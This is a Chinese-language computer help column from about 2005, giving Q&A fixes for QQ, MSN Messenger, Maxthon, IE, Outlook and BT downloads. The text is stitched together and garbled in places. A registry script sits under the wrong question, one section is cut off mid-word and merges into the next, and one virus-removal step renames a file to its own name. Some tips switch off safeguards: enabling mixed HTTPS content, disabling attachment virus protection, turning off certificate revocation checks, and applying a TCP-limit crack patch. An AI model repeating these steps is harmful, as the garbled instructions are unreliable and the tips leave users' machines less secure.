- 第二步:删除[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters]分支下的“AutoShareServer”REG_DWORD值，删除[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters]分支下的“AutoShareWks”REG_DWORD值。

## 免费建立超强QQ群

问:以前流行过用申请QQ校友录来建立QQ固定群的方法，不过我发现最近申请比较困难了。我以前建立的群只支持最多20个人，有没有办法让群支持的人数更多(别告诉我花钱买Q币来充值)？

答:首先保证你的QQ版本是2005 beta1及以上的版本。在QQ的主面板上有“个人账号”图标(就是3个硬币)，单击该图标，在打开的“个人账户”窗口中右键单击，选择“属性”菜单，你会看到一个网址，形如:http://pay-client.qq.com...&clientkey=...，记下“clientkey=”后面的那一串数字。

然后打开记事本，把这一串数字复制进来，修改为如下网址:http://im.qq.com/cgi-bin/toc/toc_info?uin=你的QQ号码&signature=那串数字。访问该地址，这里是腾讯推出的“在线企业”注册页面，大家只需要填写一个表格就OK了。利用该方法你可以最多建立4个群，每个群最多支持100个成员哦:-)

## 整治网页滚动条看不清的问题

问:有的网站自己定义了滚动条的样式(比如颜色、背景色)，结果让我根本看不清楚到底滚动条在哪，请问有没有什么办法禁用这个特性？

答:站点的设计者是使用CSS代码来控制滚动条的样式的，这样虽然可以让页面整体看起来更漂亮，但如果处理不当，会严重影响浏览者的操作。如果你使用Maxthon等浏览器，可以试试这个名叫MyStyle的插件，它可以允许你自己设置浏览页的样式，使用方法比较简单，一看就会了。MyStyle的下载地址是:http://maxthon.tarapages.com/plugins/pafiledb.php?action=edit&id=159。

## 解决Google代理软件在Maxthon中的使用问题

问:最近Google推出了一个叫Google Web Accelerator的软件，这个软件既可以加快我们浏览网页的速度，而且可以当成代理来使用，访问到一些无法访问的站点。我非常希望使用它，可它只支持IE和Firefox，我一直都用Maxthon，难道就注定与它无缘了吗？

答:其实Google Web Accelerator的代理功能原理就是在本地建立一个代理服务器，跟别的代理服务器软件有些类似，只不过不用我们进行多余的设置。要在Maxthon中使用它(对其他多页面浏览器操作方法类似)，可以进行如下操作:
选择“选项→代理服务器→代理设置”菜单，在打开的窗口中添加一个代理服务器即可:地址为127.0.0.1，端口号为9100。

另外，补充几点使用Google Web Accelerator的要点:
- 它不适合拨号用户，只适合宽带用户;
- 它只能提高浏览速度，对下载速度没有任何影响;
- 它对以“https://”开头的网页的浏览起不到加速的作用。

## MSN Messenger 7.0联系人的名字太丑了

问:最近把自己的MSN Messenger升级到了最新的7.0版，但发现一个很不爽的问题——当鼠标单击选中某个联系人时，其字体变成了很难看的字体，几乎无法辨认。有没有办法解决啊？

答:在“显示属性”中切换到“外观”标签，点击“高级”按钮，在打开的窗口的“项目”下拉列表中选择“已选定的项目”，将其字体修改为“Tahoma”，接下来重新启动MSN Messenger即可。

## 解决https站点的访问问题

问:最近我在访问一些以“https://”开头的网站时，老是弹出一个窗口，提示“本页不但包含安全的内容，也包含不安全的内容。是否显示不安全的内容？”请问到底如何解决啊？每次都要点一下“是”才能继续浏览，好烦人。

答:地址以“https://”开头的网站，是经过SSL加密处理的，它能够保证页面内的内容绝对安全，所以我们常常在在线银行、支付系统、邮箱等站点看到这样的地址。如果你访问的https网页中含有非http网页的内容，就会出现这个警告窗口。如果你确信自己访问的站点没有任何安全上的问题，可以做如下设置来避免该窗口的弹出:
在IE中选择“工具→Internet选项”，切换到“安全”标签，单击“自定义级别”按钮，在打开的“安全设置”窗口中找到“显示混合内容”一项，将其设置为“启用”即可(默认设置为“提示”)。

## MSN Messenger 无法显示动漫传情

问:新版的MSN Messenger中提供了动漫传情功能，但我这里却无法正常显示，而且对方的动态头像我这里也无法显示。请问这是什么原因呢？该如何解决？我已经安装了Flash Shockwave Player 2002版本，并且在网上浏览Flash一切正常。

答:MSN Messenger 7.0的动漫传情功能其实就是在本地播放一个个的swf文件，如果遇到它无法显示的问题，请按照下面的步骤来进行排除:
- 第一步:确认你安装了最新版本的Flash Shockware插件，该插件在你访问包含Flash的网页时会提示安装，接下来确认你安装了Flash Player Winax插件，它的下载地址为:http://download.macromedia.com/pub/shockwave/flash/free_license/flash7/english/win95nt/7.0.19.0/flashplayer7_winax.exe。

## 如何才能注销免费邮箱的账户

问:最近有个头痛的事。我用上了Gmail，想彻底抛弃以前的163.com邮箱。由于有些朋友不知道我已经转移邮箱了，所以我想将163.com邮箱账户注销掉，这样系统会自动回复一个“无法投递”的E-mail给对方。可找了半天也没找到相关功能。请问，我该怎么办？

答:国内的服务商的确在这方面做得很不人性化。对于你说的163.com邮箱，你可以不登录，这样只要超过90天，你的账户将自动被系统注销。其他多数国内邮箱也采用类似策略。其实邮箱账户闲置，一方面浪费资源，另一方面可能别人想注册这个ID却注册不到。傻博士在这里也呼吁国内的服务商能够考虑得更周到一些。国外站点的邮箱大都提供了注销功能:
- Gmail:https://www.google.com/accounts/DeleteCaribouService
- Hotmail/MSN:https://register.passport.net/ppdelete.srf?lc=2052.
- Yahoo:https://edit.yahoo.com/config/delete_user

## 搞定新版Maxthon访问网页变慢的问题

问:最近我将自己的Maxthon升级到了最新版本(V1.3.1)，可升级后我发现访问网页常常变得反应缓慢。请问是不是Maxthon新版本有问题啊？

答:Maxthon的新版没有这方面的问题。你访问的是不是Blog站点？呵呵，这是由于Maxthon中加入了RSS新闻发挖功能。你可以选择“选项→Maxthon选项”菜单，切换到“RSS新闻”标签，取消勾选“自动发现网页上的新闻链接”和“当在网页上发现RSS新闻链接的时候通知我”两项即可。

## 查杀QQ白骨精病毒

问:最近我要崩溃了，我的QQ中了个病毒，每次跟好友聊着聊着，都会自动给对方发送一个文件，文件名类似“一个对你目前工作很有帮助的好东东.exe”等。我已经尝试用卡巴斯基、Norton Anti-Virus等多种杀毒软件，升级到最新病毒库进行扫描，均没有搞定，我该怎么办？

答:很明显，你中了“QQ白骨精病毒”，中了这样的病毒，QQ会自动给你的好友发送类似“网上电视(20个CCTV频道 + 36个省台 + 50个英文台，极力推荐).exe”等非常具有诱惑力的文件，接收者不管是点“接受”，还是“拒绝”，都将感染这一病毒，所以它是最近最为猖獗的QQ病毒之一。
下面介绍一下如何手动查杀这个QQ病毒:
- 第一步:打开“任务管理器”，结束掉SYSTEM32Rundll32.exe(Windows 98)或者SYSTEMLRundll32.exe(Windows 2000/XP)进程。
- 第二步:删除C:\Windows\system\.exe、C:\Windows\system\SYSTEM.EXE、C:\Windows\system\SYSTEM32Rundll32.exe文件。
- 第三步:重启电脑，按F8进入安全模式，输入“assoc .exe=exefile”，屏幕提示“.exe=exefile”。如果你使用的是QQ珊瑚虫版，本，需要将QQ安装目录下的TIMPlatform.exe删除，再把TIMPlatform.exe改名为TIMPlatform.exe即可(注意字母I和数字1的区别)。
- 第四步:下载rundll32_2000.rar(Windows 2000)或rundll32_xp.rar(Windows XP)，将其解压缩到C:\WINNT\system32目录(Windows 2000)或者C:\Windows\system32目录(Windows XP)，覆盖同名文件，重新启动即可。
下载地址:
http://www.newhua.com/cfan/200515/rundll32_xp.rar
http://www.newhua.com/cfan/200515/rundll32_2000.rar

## 解决局域网内用QQ传文件速度慢的问题

问:我和我同事都是用QQ直接传送文件，我们处于同一个局域网中，相互之间访问正常，但用QQ传输文件速度非常缓慢，有时只有几百KB/s。而我与其他同事之间用QQ传送文件却能达到1MB/s的速度。请问如何解决呢？

答:你可以尝试以下方法:
- 第一步:首先在你和对方QQ的“系统设置”中的“网络设置”标签里，将“通讯模式选择”设置为“通过点对点模式与好友交换信息”。
- 第二步:切换到“登录设置”标签，确保“当前的登录方式”设置为“UDP方式登录”。
- 第三步:在网卡属性设置窗口的“常规”标签中单击“配置”按钮，切换到“高级”标签，将“Link Speed/Duplex Mode”设置为“Full Mode”。

## 解决金山词霸取词冲突问题

问:我安装的是金山词霸2005版本，每次使用屏幕取词时，我的McAfee就报警，提示进行非法操作。请问这个问题如何解决呢？

答:这是金山词霸2005的BUG，请到金山词霸的论坛中下载解决该BUG的补丁，下载地址:http://bbs.cb.kingsoft.com/viewthread.php?tid=518057&fpage=1。如果存在每当用金山词霸屏幕取词功能时，桌面就丢失(屏幕上看起来像在注销当前用户)，这是由于金山词霸2005版与部分Intel i915/925.nForce4.ATi RS480芯片组之间存在冲突，可以尝试下载:http://support.kingsoft.com/c_1/XdictGrb.dll，将其替换掉金山词霸安装目录下的同名文件。
此外，金山词霸2005版还存在与64位机的冲突，具体表现在屏幕取词闪烁、任务栏闪烁、窗口异常关闭等离奇故障，目前还没有解决办法。

## 解决Outlook突然自动退出的问题

问:我的Outlook 2003经常在启动时莫名其妙地退出，无任何提示。我的操作系统是Windows 2000。请傻博士帮帮我吧。

答:这多半是因为Outlook 2003中收件箱里的中文邮件导致的，是inbox里边的中文邮件导致的，解决方法如下:
- 第一步:打开“控制面板→邮件”，在打开的“邮件设置”窗口中单击“电子邮件账户”按钮，在“电子邮件账户”向导中新建建立一个账户。
- 第二步:启动Outlook 2003，选择新建立的账户，进入后，选择“文件→打开→Outlook数据文件”菜单，打开outlook.pst文件。接下来将收件箱里的邮件转移到其他文件夹中(如“草稿”)。最后重新启动Outlook 2003即可。
不过该方法在你又新收到邮件后可能会再次出现故障。你可以用下面的设置来避免这一问题:选择“工具→选项”菜单打开“选项”设置窗口，切换到“其他”标签，单击“高级选项”按钮，在“启动时定位到”一栏点击“浏览”，选择除“收件箱”之外的其他选择即可(如“日历”、“任务”等)。

## 解决一个变态的网页弹出窗口问题

问:我使用Maxthon浏览网站，最近在不小心访问了www.5xt.net后，站点老是弹出许多...新建的很小的窗口。启动项里没有加入相关程序，注册表里也没找到其键值。而我之前已经安装了防火墙、杀毒软件和IE免疫工具。请问这个问题怎么解决？

答:最近有关浏览安全的问题特别多，你提到的这个站点属于其中比较另类的。它是通过在你的系统中建立一个隐藏的dll文件，该文件又会在系统目录中创建一个指向广告网站的INF文件。此外，该dll文件还会不断尝试往IE缓存文件夹中写入文件。解决的方法是:

-   第一步:运行“Regedit”命令打开注册表编辑器，以“MsInfo.dll”为关键字进行搜索，将所有搜索到的结果一一删除，退出注册表并重新启动计算机。
-   第二步:删除C:\Program Files\Common Files\Microsoft Shared\MSInfo目录中的MsInfo.dll文件，删除C:\Windows\system32目录中的temp2.inf文件。
-   第三步:在IE中选择“工具→Internet选项”，单击“删除文件”并确认以清空IE缓存。

## 浏览器的网页显示为空白

问:我在访问某些站点的时候，IE显示的该页站点为空白页面，在Maxthon中依然如此，将网页保存到本地后打开，同样显示为空白。但在查看该页面的源代码时又能看到内容，且将网页拷贝到DreamWeaver中能正常显示。这是什么原因造成的？

答:这其实是浏览器的编码问题造成的。如果你在设置中没有使用浏览器的自动选择功能，那么使用UTF-8编码来查看GB2312的网页就有可能出现这样的问题。比如，某网页的源代码中有一段如下字样:

```
<meta http-equiv="Content-Type" content="text/html; charset=GB2312"/>
```

这就表示该页面采用GB2312编码，如果你的IE的“查看→编码”设置中仅仅勾选了“Unicode(UTF-8)”，那么IE在访问该网页时就有可能出现解释不出页面的情况。解决的方法是选中“查看→编码→自动选择”。

## 解决打不开HTTPS网页的故障

问:最近我的Windows XP系统无法打开HTTPS为前缀的网页了，如何解决呢？

答:可以从下面几个方面着手解决:

-   第一步:在IE中选择“工具→Internet选项”，切换到“高级”标签，勾选“使用SSL 2.0”和“使用SSL 3.0”两项。切换到“安全”标签，单击“自定义级别”按钮，确保“显示混合内容”一项为“启用”或“提示”。
-   第二步:运行“services.msc”命令打开服务管理窗口，找到一项名为“HTTP SLL”的服务，确保将其设置为“自动”或者“手动”。
-   第三步:利用防火墙软件或者第三方工具查看本机开放的端口中443是否被关闭。HTTPS页面需要通过这个端口来互访，如果443端口被关闭，请设置开放该端口或者与你所在局域网网络管理员。

## 跳过MSN Messenger的.Net passport向导

问:我在网吧中上网，这里的网吧都安装了还原精灵，每次重启后，之前的MSN Messenger的登录信息都被还原了。所以每次都要重新运行一遍添加登录用户向导，这向导需要花比较长的时间，能不能跳过它？

答:在单击“登录”按钮打开向导操作窗口后，点击“取消”或者按下ESC键，再次单击“登录”打开向导操作窗口，同样点击“取消”或者按下ESC……如此反复5次后，系统便不会强制进行.Net passport的向导操作了，而是普通的输入账户和密码，登录即可。

## MSN Messenger总是提示输入账号

问:我的MSN Messenger每次登录的时候都需要再次输入账户和密码，实在是太麻烦了。我看其他朋友都没这个问题，到底是怎么回事？

答:可以从下面两步来着手解决这个问题:

-   第一步:打开“控制面板→用户账户”，进入当前登录用户，单击“创建我的.NET Passport”并完成该向导，以绑定一个.passport账号。
-   第二步:运行MSN Messenger，选择“工具→选项”，切换到“常规”标签，勾选“连接到Internet时允许自动登录”。在输入账户登录的时候记得勾选“自动登录”一项。

## 如何搜索聊天记录

问:每次重装系统前我都将MSN Messenger聊天记录备份起来，现在系统中分别保存了几年的MSN Messenger聊天记录文件，我现在想查找一次与一个客户谈合作时的记录，请问有没有什么便捷而快速的方法可以实现？

答:你可以通过百度的聊天记录搜索功能来达到目的。首先，下载并安装百度硬盘搜索伴侣(下载地址:http://disk.baidu.com/)，安装后待其索引完硬盘中所有的文件后就可以进行搜索了:双击系统托盘区中的百度图标，在打开的搜索页面中输入聊天内容中可能包含的关键词或是你的MSN Messenger好友昵称，再选择搜索方式为“聊天”即可开始搜索了，搜索结束后直接点击结果项就可以直接查看聊天记录。

## 无法打开邮件中的附件怎么办

问:为什么我在打开带有附件的Outlook Express邮件时，总出现“OE删除了对您的邮件中不安全的附件的访问”的提示，并且无法打开所带附件？

答:在Outlook Express6.0版本中预设了一项保护功能，就是无法打开收到的附件。解决方法:启动Outlook Express，单击主菜单上“工具→选项”，在“选项”窗口中切换到“安全”标签下，选中“受限制的站点区域”，去掉“病毒防护”区域中“不允许打开或保存可能有病毒的附件”前的“√”，单击“确定”，以后即能正常打开附件了。

## E-mail中的“>>>>”怎么删除

问:我们在收E-mail时，经常会看到每一行的开头附带了许多“>>>>”三角符号，怎么不让它出现吗？

答:当然能。启动Outlook Express，单击“工具→选项”，在弹出的选项窗口中选择“发送”选项卡，单击“邮件发送格式”框中右下角的“纯文字设置”按钮，在打开的“纯文字设置”窗口中，取消“回复或转发时，缩进原邮件”前的对勾，单击“确定”返回即可。

## 如何观看没下载完整的影片

问:我经常在使用BT下载电影时，下载到了98~99%时无法下载了，不知道这样没下载完整的电影能不能观看，如果能应该如何观看呢？

答:一般情况下，下载到99%时无法下载的电影其实已经趋于完整，只要将未下载完毕的文件扩展名去除就可以用播放器播放了，在此，建议使用VLC media player播放器，该播放器可以边下载边观看Divx媒体文件，而且还可以播放不完整的AVI文件。下载地址:http://nj.onlinedown.net/soft/16216.htm。

## 如何动态获取IP地址

问:由于工作需要，我要实时获取家中使用ADSL上网的电脑的IP地址，由于ADSL上网的IP地址是动态的，只要我的电脑重启或断开后重新连接后的IP地址就被更换了。请问，有没有其他方法可以帮助我适时地获取家中电脑的动态IP地址？

答:可以通过申请动态免费的动态域名来解决问题。例如，申请一个花生壳免费动态域名(http://nj.onlinedown.net/soft/39143.htm)，在你的电脑中安装了花生壳免费域名的客户端，这样，只要你的电脑处于连接状态，花生壳免费域名就处于活动状态，你只要在远程通过Ping命令Ping这个免费的动态域名就可以获得你电脑的当前IP地址了。另外，IP Mailer(下载地址:http://soft.2118.com.cn/soft/26295.htm)也可以帮助你解决这样的问题。

## 电脑下载时提示硬盘空间不足

问:我在使用电脑下载电影时，明明是将影片下载到D盘的，但在下载过程中还是提示我的C盘空间不足，我清理了一下C盘，但过了不久，系统又提示我的硬盘空间不足。只要停止下载，此提示信息就不会再显示了。请问这是什么原因？

答:这可能是你下载的电影文件比较大，而电骡默认先将文件下载到临时文件夹中，因而出现你所描述的问题。你可以在电骡中将临时文件夹位置设置为其他硬盘即可。单击电骡主窗口中的“选项”按钮，在打开的设置窗口中选择“目录”项，然后在窗口的右侧单击“临时文件”区中的“浏览”按钮，设置临时文件夹为其他分区中的文件夹即可解决问题。不过，你的C盘空间已经提示不足，最好要删除一些程序或是无用的文件，避免影响系统的运行速度。

## 无法在线看电影

问:以前我在IE中可以顺利地在线观看电影，但自从安装了插件管理程序UPIEA程序后，就再也无法在线观看电影了。请问这是什么原因，该如何解决？

答:在线观看电影需要相应播放器的插件支持，一般只要有RealPlayer播放器与Media Player播放的支持即可。而你安装了UPIEA程序后，可能程序对播放器的插件程序进行阻止操作了，只要重新在UPIEA中找到对应这两个播放器的插件，并放行即可解决问题。安装了其他插件管理程序后也有可能会导致这种情况出现，解决办法类似，只要在插件管理程序中重新放行播放器插件项即可解决问题。

## 网上商城中搜寻最便宜的物品

问:经常在网上购物，发现同一个品牌同一个型号的物品在不同的网店中的卖价并不一样，有的价格比较低。请问，在购物前能不能方便地搜索开价最低的店家？(上海 HE)

答:其实，在网上商城中就可以直接搜索了，输入物品名称，单击搜索后，然后再比较价格，看哪家最便宜即可。另外，有一款名为“货比多家”的专业软件，下载地址:http://www.onlinedown.net/soft/40895.htm，利用它可以直接在包括“淘宝、卓越网、搜狐网上商城、当当网、新浪商城”等十几家网上商城中搜索同一个物品，从而可以轻松地对价格进行比较。

## 去除迅雷广告

问:我喜欢用迅雷从网上下载文件，但它总是时不时地弹出广告，非常麻烦。请问，有没有什么方法可以去除迅雷的弹出广告？(上海 HE)

答:只要注册后就不会再弹出广告了，不过在试用期时，你可以通过手工修改相应文件的方法来取消弹出广告:用“记事本”打开迅雷安装目录下的gui.cfg文件，把ExternalURL后的地址去掉即可。

## 在MSN中直接启动Maxthon

问:我一直使用Maxthon浏览器，但每次直接点击MSN Messenger中联系人发过来的链接时，系统总是启动IE来打开。请问，有没有什么方法可以让系统自动启动Maxthon浏览器来打开MSN Messenger中的链接？(陕西文青)

答:你可以通过修改注册表来达到目的。

## GB无法重复打开新窗口

问:我在使用GreenBrowser(简称GB)浏览器时，只要在第一个页面中用“Shift+左键”在新窗口中打开链接页面后，再次按同样的方法打开新链接时总是显示先前打开的新窗口页面，而无法再次打开一个新窗口了。请问如何让GB在新窗口中再次打开已有的页面呢? (Baby)

答:单击“工具→广告过滤器→设置广告过滤器”菜单项，然后启用“重复弹出窗口过滤器”即可。

```
Windows Registry Editor Version 5.00
[HKEY_CLASSES_ROOT\.html]
"PerceivedType"="text"
@="GBHTML"
"ContentType"="text/html"
[HKEY_CLASSES_ROOT\.htm]
"PerceivedType"="text"
@="GBHTML"
"ContentType"="text/html"
[HKEY_CLASSES_ROOT\GBHTML\DefaultIcon]
@="C:\Program Files\Maxthon\Maxthon.exe,0"(这里设置Maxthon的安装目录)
[HKEY_CLASSES_ROOT\GBHTML\Shell]
@=""
[HKEY_CLASSES_ROOT\GBHTML\Shell\open]
[HKEY_CLASSES_ROOT\GBHTML\Shell\open\command]
@="\"C:\Program Files\Maxthon\Maxthon.exe\"%1"
```

第三步:将其保存并更改文本文件扩展名为REG，双击该文件导入注册表即可解决问题。
其中“@ = ”C：Program Files\Maxthon\Maxthon.exe,0””是设置Maxthon的安装目录，根据你安装的位置不同要进行更改。

## POPO总是提示新邮件

问:我在POPO中开启了自动提醒新邮件的功能，我明明使用Foxmail将163中的邮件收取完毕了，但POPO仍然提示有新邮件，而Foxmail收取邮件时并不能收到。请问这是什么原因?

答:这可能是因为POPO先将新邮件信息收集下来了，但你没有将其标记为已读。只要单击POPO主窗口中“工具→邮箱管理”菜单项，在打开的窗口中将新邮件删除即可。

## 解决TCP连接数引起的BT故障

问:我近日重装了系统，但发现BT速度变得奇慢，而且BT下载的同时无法浏览网页，经过更新主板驱动，检查防火墙设置等一系列步骤故障却依旧。我的系统为Windows XP SP2，又以为是TCP并发连接数受到限制所致，于是用BT精灵自带的TCP连接数破解补丁，把数值定义为600，可重启电脑后，故障并没有解决，这是什么原因呢? (辽宁 大理)

答:你应该是安装了六月份微软推出的补丁，再次锁定了TCP连接数。要解决这个问题可以使用EvID4226Patch(下载地址:http://www.newhua.com/cfan/200519/EvID4226Patch.zip)来解决。下载这款软件后，运行，然后按“Y”即可破解。

## 使用花刺代理后无法使用IE

问:我下载并安装了一款名为“花刺代理验证”的软件，试用了几天，现在卸载了该软件，但IE浏览器却无法打开任何网页，而其他聊天软件可以正常使用，Firefox浏览器也可以正常使用。请问这是什么原因? (安徽 吴知)

答:这肯定是你在“花刺代理验证”软件中使用了设置IE代理的功能了，而你卸载该软件后，先前为IE浏览器设置的代理服务器不再提供服务，因而出现该问题。解决方法如下，单击IE浏览器主窗口中的菜单“工具→Internet选项”，在打开的窗口中选择“连接”选项卡，再单击“局域网设置”按钮，在打开的窗口中取消选择“代理服务器”框中的“为LAN使用代理服务器”选项，最后单击“确定”按钮即可。

## 清除Outlook收件人地址历史记录

问:在Outlook中，先前发送邮件时输入的收件人地址中会自动保留邮箱地址的历史记录，当你输入邮箱的第一个字母时，如果历史记录中有与该字母相同的邮箱，将会自动显示在地址栏下面。请问如何删除这些自动记录下来的邮箱地址历史记录? (E2)

答:如果你只想删除自动记录的历史记录中的一个或是几个邮箱，只要在弹出记录时将鼠标移至待删除的邮箱地址上，然后按下“Delete”键即可，如果要删除所有自动记录的邮箱历史记录，只要删除C:\Documents and Settings\用户\Application Data\Microsoft\Outlook中的DAT文件即可。

## 清除IE中文历史记录

问:在IE浏览器中，只要单击地址栏右侧的黑色下拉按钮，将会显示地址历史记录，而通过IE自身的清除功能清除后，英文历史记录虽然被清除了，但那些中文地址的历史记录却无法被清除。请问如何清除这些中文历史记录? (安徽)

答:清除中文历史记录用IE浏览器自身无法实现，你可以通过“雅虎助手”(原3721)来达到目的。首先，到http://cn.zs.yahoo.com/start?from=startmenu 下载并安装雅虎助手最新版程序，启动雅虎助手后单击“清理IE地址栏”，在打开的窗口列表中直接勾选你想清除的中文历史记录，最后单击“立即清理”按钮即可成功清除中文历史记录了。

## Google Talk中直接联系Gmail联系人

问:听朋友说在Google Talk中可以直接与对应的Gmail邮箱中的联系人进行通讯，而无须添加对方为好友。请问具体如何实现? (GTA)

答:只要使用对应的Gmail邮箱中的账号登录Google Talk，你的Gmail邮箱通讯簿中的联系人都可以直接与之对话了(前提是对方用该邮箱账号登录Google Talk)，但是默认设置下，在联系人列表中不会显示这些朋友，你必须要按下述方法设置，单击Google Talk主窗口中“Settings”项，在打开的窗口中取消选择“Hide Gmail contacts not on my Friends List”项，最后单击“OK”按钮，回到主窗口后再单击左下角的“Show all”链接显示所有的联系人即可，这样所有的联系人都会直接显示在联系人列表中了。

## 清除Foxmail的历史记录

问:在Foxmail中，每次写新邮件时，只要在收件人地址栏中输入一个字母，将会自动显示以前输入过的邮箱地址。请问如何彻底清除这些自动记录的历史记录? (M&M)

答:Foxmail提供了清除功能，只要在Foxmail主窗口中单击“工具→系统设置”项，在打开的窗口中再选择“常规”选项卡，直接单击下面的“清除历史记录”按钮，这样就可以直接清除所有以前输入过的邮件地址的历史记录及使用短信时输入过的手机号码记录了。

## Maxthon中直接调用FlashGet下载

问:我现在改用Maxthon浏览器，在下载文件时，浏览器无法直接启用FlashGet来下载文件，而我的系统中明明安装了FlashGet，与此同时IE浏览器却可以正常调用FlashGet来下载。请问这是怎么回事? 如何让Maxthon直接调用FlashGet来下载文件呢? (山东 张强)

答:在Maxthon中想要使用FlashGet来下载文件，必须要手工设置，单击浏览器主窗口中的菜单“选项→Maxthon选项”，在打开的窗口中选项“下载”项，然后在“选择下载工具”下面的下拉列表中找到并选择“FlashGet”，最后再单击“确定”按钮即可。

## 连接正常但无法浏览网页

问:由于出现了系统故障，我将网卡的驱动程序删除后重启，按提示重装驱动程序后，拨号、连接一切正常，显示已经连接到网络，但就是无法浏览网页，无法更新病毒库。我的系统是Windows XP SP2，宽带是虚拟拨号的，网卡是10/100Mbps自适应的。请问如何解决这个问题? (上海 赵良)

答:可能有几种原因导致出现这种故障。①感染病毒，②DNS设置出错，③防火墙中的不当设置。建议先用杀毒软件对整个系统进行病毒查杀，然后在网络连接中检查一下DNS服务器设置是否正确，如果没有设置，可以致电当地的网络服务商，得到DNS服务器后再进行正确地设置，最后再检查一下防火墙中是否屏蔽了常用的网络端口，以及一些应用程序对网络的网络的访问。

## 网络连接上显示惊叹号

问:我的系统是Windows XP SP2，使用铁通ADSL上网。在我的网络连接显示的时候，在图标上出现了一个惊叹号，用鼠标点击时出现“受限制或无连接”的提示。请问这是什么原因? (北京 刘珍梅)

答:这可能是因为你的网卡没有分配IP地址，在Windows XP SP2中，如果网卡没有分配IP地址就会出现这种情况。只要在网络连接属性中为网卡分配一个内部IP地址(如192.168.0.1)便可解决问题。

## 查询域名、IP的详细信息

问:知道一个网站的域名后，想查询该域名对应的IP地址通常比较简单，但是知道一个IP地址后，要想查询该IP地址对应的域名不知道如何实现? (新疆 吴知)

答:你可以通过一个专门查询域名、IP地址对应的详细信息的网站来达到目的。在浏览器中打开http://www.whois.sc，然后将域名或是IP地址输入到搜索框中，单击“Search”按钮，之后你将会得到该域名对应的IP地址，以及该域名所有公司的详细信息，而当你查询IP地址时，你将会得到这个IP地址的详细信息，如果该IP地址被某公司网站占有后，你还可以查询到该IP地址对应的所有网站域名等信息。

## 网站无法正常使用

问:我从网上申请了一个空间，申请成功后，上传了论坛程序，虽然显示成功，但使用域名进行访问时出现错误，总是提示无法访问。请问这是什么原因? (新疆 吴知)

答:首先，你要检查一下申请的网站空间对应的服务器是否工作正常(可以通过Ping服务器对应的IP地址或域名来进行检测)，其次，你要确定申请的空间要支持动态页面及数据库，例如论坛程序使用ASP+SQL数据库开发，相应对网站空间要求就是它必须要支持ASP语言及SQL数据库，否则论坛程序则无法运行。另外，你在上传时目录是否正确，回到上传软件中查看最终将论坛程序文件上传到哪个目录，如果是网站空间的根目录，则可以直接使用你的域名访问，否则需要在域名后面添加相应的目录名才能进行访问。

## 无线网络无法Ping通对方

问:两台电脑都使用无线网卡，都可以Ping通网关，但就是无法互相Ping通。请问这是什么原因，是否要在AP上进行设置? (北...## 限制域用户只登录某一台电脑

**问：** 在我们公司局域网中使用了域服务器，所有计算机都加入了域中。请问，能不能限制其中的计算机只能登录到某一台电脑上？（李海肖）

**答：** 可以限制域内的用户只登录固定的计算机，在域服务器中右击域用户，选择“属性”，在打开的设置窗口中的“登录到”选项中便可以进行设置，同时还可以设置登录的时间等参数。

## 网上邻居内工作机时有时无的问题

**问：** 在我们公司局域网中使用了域服务器，所有计算机都加入了域中。请问，为什么我们网上邻居里的工作机总是时有时无？（李海肖）

**答：** 这可能是因为网络上没有WINS服务器，没有WINS服务器的网络中大家只能广播、竞争选举，靠选举的机器来维护网上邻居的列表。建议你在局域网中建立一个WINS服务器，每台机器都配置好WINS服务器地址，然后，打开网上邻居就和本地硬盘一样快了。而且只要WINS服务器正常工作，永远不会出现找不到网上邻居的问题了。

## 避免Maxthon中新标签覆盖当前页面

**问：** 我在使用Maxthon浏览器时，每次在地址栏中输入新的网址，回车后，系统总是直接在当前标签页面下打开新页面，从而覆盖了先前打开的页面。请问，有没有方法可以避免新打开的页面覆盖以前打开的？（GbEr）

**答：** 这是由于你的Maxthon没有设置好，只要按下面的方法进行设置即可解决问题。单击Maxthon浏览器主窗口中的菜单“选项→Maxthon选项”，在打开的窗口中选择“标签”项，然后在右侧窗口中再选择“新建”选项卡，勾选“输入的新网址”项，最后单击“确定”，重启Maxthon浏览器即可。

## 安装个人网上银行不能通过SSL连接

**问：** 我的系统是Windows XP SP2，网络使用正常，像QQ、Foxmail这样的网络软件都可以正常使用，但是当我在安装招商银行专业版时，一直通不过系统的检测，提示以下信息：①基于安全的HTTP通讯(SSL)出错；②请检查网络连接和通讯设置；③招行网站SSL通讯出错；④通讯情况检查结束！您的通讯有问题，无法使用专业版，请检查您的通讯情况。请问这是什么原因？（上海·刘路）

**答：** 在IE中，单击“工具→Internet选项”菜单项，在打开的窗口中选择“高级”选项卡，然后把“安全→检查服务器证书吊销(需要重新启动)”前的复选框取消勾选便可以解决问题。如果还不能解决问题，可以拨打招商银行免费服务热线95555来解决问题。

## 将淘宝退款转到银行账户

**问：** 我在淘宝网站中购买一件物品，收到物品后发现与理想中的不一样，在与卖家协商并得到同意后，将该物品退回给卖家。但对方的退款被转到我的支付宝账户中，这样一来，我便不能取出。请问，如何将支付宝中的钱转存到银行账户中？（呆瓜）

**答：** 如果要想将支付宝账户中的钱转存到银行账户中，你必须已经将银行账户与支付宝账户绑定，如果没有绑定，可以登录支付宝账户，然后单击“账户提现”链接，系统会自动提示你绑定银行账户(注意，被绑定的银行账户必须已经开通了网上银行服务)。成功绑定了银行账户后，再单击“账户提现”链接，在进入的页面中，你便可以直接将支付宝中的余额转存到银行账户中了。不过，支付宝规定，对于不同的银行，成功完成余额转存的时间不一样，如果是工行、建行、招商银行等，一般是在1～2个工作日完成余额的转存，如果是其他银行，成功转存余额的时间在2～10个工作日之间。

## 取消Hotmail自动将邮件设置为垃圾邮件

**问：** 最近，我在网上通过Hotmail邮箱与别人联系，但发现很多邮件都被Hotmail自动识别为垃圾邮件。请问，如何避免Hotmail邮箱将大部分正常的邮件识别为垃圾邮件？（新疆·熊猫可爱）

**答：** 默认设置下，Hotmail将垃圾邮件过滤级别设置为“高”，这样，系统会将很多非垃圾邮件识别为垃圾邮件。你可以通过下面的设置来解决问题，直接点击MSN Messenger主窗口中的打开邮件图标，启动浏览器并打开Hotmail邮箱，接下来点击打开页面中的“选项”链接，在打开的页面中再点击“邮件”链接，在弹出窗口中点击“垃圾邮件过滤器”链接，并在打开的页面中将过滤级别设置为“低”即可。如果是一些固定的可靠发件人地址，可以将其添加到“安全列表”中，这样，这些邮件地址发过来的邮件永远都不会被识别为垃圾邮件了。

## 继续下载没有种子的BT文件

**问：** 我经常使用BitComet来下载一些文件，往往在下载完成一部分时，种子没有了，导致整个下载计划前功尽弃。请问，遇到这种情况有没有可能继续完成下载呢？（BTer）

